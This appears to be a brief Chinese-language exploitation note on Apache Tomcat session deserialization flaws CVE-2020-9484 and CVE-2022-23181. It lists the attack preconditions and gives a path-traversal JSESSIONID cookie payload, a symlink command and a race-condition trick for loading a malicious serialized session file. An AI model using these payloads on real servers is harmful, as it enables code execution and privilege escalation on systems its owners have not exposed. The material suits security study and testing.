 # Tomcat Session

```
攻击者能够控制服务器上文件的内容和文件名称。

服务器PersistenceManager配置中使用了FileStore。

Tomcat依赖jar包中存在反序列化利用链。

攻击者知道使用的FileStore存储位置并且知道其目录下存在的任意文件名称。(CVE-2022-23181)

满足条件竞争，创建Symlinks文件，并在完成文件验证后瞬间覆盖恶意序列化文件。(CVE-2022-23181)
```

## CVE-2020-9484

[Tomcat Session(CVE-2020-9484)反序列化漏洞复现](https://www.freebuf.com/vuls/245232.html)  

```xml
CVE-2020-9484
JSESSIONID=../../../../tmp/exp.session
```

## CVE-2022-23181

[Apache Tomcat权限提升漏洞分析（CVE-2022-23181）](https://mp.weixin.qq.com/s/sQH0CbiSHdpsoJf7ABPrtA)

```xml
CVE-2022-23181
ln -s /Users/xxxx/java/soft/apache-tomcat-8.5.42/work/Catalina/localhost/ROOT/a.session ../../../tmp/exp.session
JSESSIONID=../../../tmp/exp.session
然后条件竞争去修改/tmp/exp.session
```
**trick**:
new File("ceshi.session").getCanonicalFile()
如果是Symlinks文件就返回本来的文件名
